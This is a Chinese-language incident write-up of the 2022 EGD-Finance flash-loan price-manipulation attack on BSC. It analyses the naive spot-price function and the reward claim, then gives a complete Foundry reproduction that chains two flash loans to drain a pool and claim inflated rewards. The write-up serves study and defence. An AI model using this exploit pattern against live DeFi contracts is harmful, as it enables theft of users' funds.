





# EGD-Finance@flashloan@priceManipulation

## 事件背景

又有一个项目被黑客用闪电贷进行价格操纵



- 时间：2022.08.07
- 损失金额：36,044 USDT（$36,044）

## 交易

- 漏洞合约地址：[0x34bd6dba456bc31c2b3393e499fa10bed32a9370](https://bscscan.com/address/0x34bd6dba456bc31c2b3393e499fa10bed32a9370)
- 质押，攻击前准备hash：[0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8](https://bscscan.com/tx/0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8)
- 闪电贷攻击hash：[0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3](https://bscscan.com/tx/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3)
- 池子合约地址：[0xa361433E409Adac1f87CDF133127585F8a93c67d](https://bscscan.com/address/0xa361433e409adac1f87cdf133127585f8a93c67d)
- 攻击合约地址：[0xc30808d9373093fbfcec9e026457c6a9dab706a7](https://bscscan.com/address/0xc30808d9373093fbfcec9e026457c6a9dab706a7)
- 黑客EOA地址：[0xee0221D76504Aec40f63ad7e36855EEbF5eA5EDd](https://bscscan.com/address/0xee0221d76504aec40f63ad7e36855eebf5ea5edd)

## 资金流向



## 攻击过程

攻击前准备：2022-08-07 23:14:52 (UTC) 



发起攻击：2022-08-07 23:15:46 (UTC)



## 攻击详细分析

从攻击过程可以知道：先是stake一笔钱，然后通过两次闪电贷借出池子中的`BSC-USD`，然后调用`claimAllReward()`获取质押的奖励。那么核心问题就是通过闪电贷完成了价格操纵，因此我们来查看一下获得价格的代码：

```solidity
    function getEGDPrice() public view returns (uint){
        uint balance1 = EGD.balanceOf(pair);
        uint balance2 = U.balanceOf(pair);
        return (balance2 * 1e18 / balance1);
    }
```

我们可以发现，EGD的价格只是简单的通过除法计算：`池子中的BSC-USD数量 / 池子中的EGD的数量`。如果通过闪电贷在池子中借走大量的BSC-USD，就会使得EGD的价格急剧下降，反之急剧上升，从而操纵价格。

既然存在价格操纵的漏洞，那么就可以找一下哪里可以利用此漏洞从而获利。黑客找到了这个质押然后获取利润的`claimAllReward()`函数，从这个方法可以看出，利润是给EGD代币，并且利润的计算是用`利润因子/EGD价格`，并且限制比较少（比如质押一定的时间，不能太短时间内就取款，等等）。



因此，可以操纵价格，使得EGD价格急剧下降，从而使得利润`rew`变大从而获利，是典型的闪电贷操纵价格的攻击方式。

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC/tree/master)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {

    // 两次闪电贷分别借款金额
    uint256 constant FLASHLOANAMOUNT_01 = 2000 * 1e18;
    uint256 FLASHLOANAMOUNT_02;

    IERC20 public EGD = IERC20(0x202b233735bF743FA31abb8f71e641970161bF98);
    IERC20 public BSC_USD = IERC20(0x55d398326f99059fF775485246999027B3197955);

    IPancakeRouter public router = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));
    IPancakePair public pair_wbnbUSD = IPancakePair(0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE);
    IPancakePair public pair_egdUSD = IPancakePair(0xa361433E409Adac1f87CDF133127585F8a93c67d);

    IEGDFinance public EGDFinance = IEGDFinance(0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370);
    bool public countFlashloan = false; // 用于控制两次不同的闪电贷回调函数

    function setUp() public {
        vm.createSelectFork("bsc", 20_245_521); // 黑客第一笔交易是进行stake，在20_245_522

        vm.label(address(EGD), "EGD");
        vm.label(address(BSC_USD), "BSC_USD");
        vm.label(address(router), "router");
        vm.label(address(pair_wbnbUSD), "pair_wbnbUSD");
        vm.label(address(pair_egdUSD), "pair_egdUSD");
        vm.label(address(EGDFinance), "EGDFinance");
    }

    function testExploit() public {

        // 做好准备工作: 授权
        EGD.approve(address(router), ~uint256(0));
        BSC_USD.approve(address(router), ~uint256(0));
        EGD.approve(address(EGDFinance), ~uint256(0));
        BSC_USD.approve(address(EGDFinance), ~uint256(0));

        // 攻击前准备：质押stake
        console.log("[before attack]");
        console.log("   stake 100 ether");
        deal(address(BSC_USD), address(this), 100 ether);
        EGDFinance.bond(address(0x659b136c49Da3D9ac48682D02F7BD8806184e218));
        EGDFinance.stake(100 ether);

        console.log();
        console.log("after 10 seconds");
        // 质押和获取利润一般不可以在同一个交易当中
        // 注意：获取的利润和时间有关系，时间越长，获取的利润就越多。
        //       但是EGDFinance在池子中的EGD余额是有限的，你的利润太多，取完了就会报错。
        //       因此，质押的数量和时间是有讲究的，否则会报错说余额不够。
        //       这里我们选择质押100ETH，并且质押10秒
        vm.warp(block.timestamp + 10);
        console.log();

        console.log("[start attack]");
        emit log_named_decimal_uint("   [INFO] attackContract BSC-USD Balance", IERC20(BSC_USD).balanceOf(address(this)), 18);
        emit log_named_decimal_uint("   [INFO] EGD/BSC-USD Price before price manipulation", IEGDFinance(EGDFinance).getEGDPrice(), 18);
        console.log("   Flashloan[1] : borrow 2,000 BSC-USD from BSC-USD/WBNB pool");
        
        // 发起攻击
        // 我们闪电贷借款2000个BSC-USD，跟攻击事件的一样
        pair_wbnbUSD.swap(FLASHLOANAMOUNT_01, 0, address(this), new bytes(1));
        console.log("   Flashloan[1] payback success");

        emit log_named_decimal_uint("   [INFO] attackContract BSC-USD Balance", IERC20(BSC_USD).balanceOf(address(this)), 18);

        IERC20(BSC_USD).transfer(msg.sender, IERC20(BSC_USD).balanceOf(address(this)));        
    }

    function pancakeCall(address, uint256, uint256, bytes calldata) external{
        if(countFlashloan == false){
            console.log("       borrow BSC-USD, the price of BSC-USD decrease");
            countFlashloan = true;

            // 第二次闪电贷：借出池子的99.99999925%，好像是说无法借出全部，否则会报流动性余额啥的异常, 如果借少了导致获利减少，不够还款闪电贷
            FLASHLOANAMOUNT_02 = IERC20(BSC_USD).balanceOf(address(pair_egdUSD)) * 9_999_999_925 / 10_000_000_000;
            // FLASHLOANAMOUNT_02 = IERC20(BSC_USD).balanceOf(address(pair_egdUSD)) * 90 / 100;
            console.log("       Flashloan[2] : borrow 99.99999925% BSC-USD of EGD/BSC-USD pool");
            pair_egdUSD.swap(0, FLASHLOANAMOUNT_02, address(this), new bytes(1));
            console.log("       Flashloan[2] payback success");

            address[] memory path = new address[](2);
            path[0] = address(EGD);
            path[1] = address(BSC_USD);
            console.log("       swap: EGD => BSC-USD");
            router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
                IERC20(EGD).balanceOf(address(this)), 1, path, address(this), block.timestamp
            );

            // 手续费是至少大于0.25%，我们选择0.26%。如果还太多，我们攻击所得的余额不够也会报错，因此要控制好数量
            uint256 swapfee = (FLASHLOANAMOUNT_01 * 10_000 / 9974) - FLASHLOANAMOUNT_01;
            BSC_USD.transfer(address(pair_wbnbUSD), FLASHLOANAMOUNT_01 + swapfee);
        }else{
            console.log("           borrow BSC-USD, the price of BSC-USD decrease again");
            emit log_named_decimal_uint("           [INFO] EGD/BSC-USD Price after price manipulation", IEGDFinance(EGDFinance).getEGDPrice(), 18);

            console.log("           Claim all EGD Token reward from EGD Finance contract");
            EGDFinance.claimAllReward();

            emit log_named_decimal_uint("           [INFO] Get reward (EGD token)", IERC20(EGD).balanceOf(address(this)), 18);
            
            // 手续费是至少大于0.25%，我们选择0.26%。如果还太多，我们攻击所得的余额不够也会报错，因此要控制好数量
            uint256 swapfee = (FLASHLOANAMOUNT_02 * 10_000 / 9974) - FLASHLOANAMOUNT_02;
            BSC_USD.transfer(address(pair_egdUSD), FLASHLOANAMOUNT_02 + swapfee);
        }
    } 
}
```

## 建议

- 质押之后，应该等一段时间才能领取利润
- 价格计算的规则太简单，被操控
